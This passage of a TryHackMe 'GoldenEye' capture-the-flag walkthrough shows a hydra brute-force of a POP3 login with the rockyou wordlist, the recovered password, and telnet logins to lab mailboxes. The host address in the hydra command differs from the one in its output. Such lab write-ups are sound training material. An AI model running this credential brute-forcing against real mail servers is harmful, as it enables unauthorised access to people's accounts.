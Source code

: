 ```
bibo318@parrot:~/CTFs/tryhackme/GoldenEye$ hydra -l boris -P /usr/share/wordlists/rockyou.txt pop3://10.10.74.5:55007
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-24 17:14:58
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.7.77:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.7.77   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-24 17:17:38
```

5. Inspect port 55007, what services is configured to use this port?

`telnet`

6. Login using that service and the credentials you found earlier.

```
bibo318@parrot:~/CTFs/tryhackme/GoldenEye$ telnet 10.10.74.5 55007
Trying 10.10.74.5...
Connected to 10.10.74.5.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER natalya
+OK
PASS bird
+OK Logged in.
LIST
+OK 2 messages:
1 631
2 1048
.
```

```
bibo318@parrot:~/CTFs/tryhackme/GoldenEye$ telnet 10.10.74.5 55007
Trying 10.10.74.5...
Connected to 10.10.74.5.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.
LIST
+OK 3 messages:
1 544
2 373
3 921
.
```
